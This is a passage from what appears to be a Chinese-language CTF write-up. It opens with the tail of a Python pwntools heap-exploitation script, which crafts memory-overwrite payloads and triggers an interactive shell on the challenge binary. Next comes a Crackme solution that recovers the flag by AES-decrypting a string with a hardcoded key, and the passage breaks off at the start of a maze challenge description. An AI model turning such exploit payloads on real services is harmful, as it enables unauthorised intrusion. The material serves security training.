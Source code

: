 ```python
            
            fill(3, payload5 + '\n')
            
            payload6 = p64(0) + p64(0)
            payload6 += p64(0xf8) + p64(prog_base+0x202050)
            payload6 += p64(mmap_addr) * 8
            fill(0, payload6 + '\n')
            
            #now trigger
            sleep(0.1)
            sl(1)
            sla('Size', 1)
            sleep(0.1)
            if ctx.connected():
                irt()
        except EOFError:
            pass
```



## RE

### Crackme

有个全局字符串，不运行值不是这个的：
nKnbHsgqD3aNEB91jB3gEzAr+IklQwT1bSs3+bXpeuo=

```python
from Crypto.Cipher import AES
import base64
iv = b'\x00'*16
key = 'sycloversyclover'
mode = AES.MODE_CBC
cryptos = AES.new(key, mode, iv)
a = b'sctf'*4
raw = cryptos.decrypt(base64.b64decode('nKnbHsgqD3aNEB91jB3gEzAr+IklQwT1bSs3+bXpeuo='))
flag = b''
for i in range(16):
    flag += bytes(chr(a[i] ^ raw[i]), encoding='utf-8')
flag += raw[16:].replace(b'\x05', b'')
print(flag)
```





### babyre



题目总共分为三个关卡，解出三个关卡就可以得到flag

第一关是一个迷宫，共分为5层
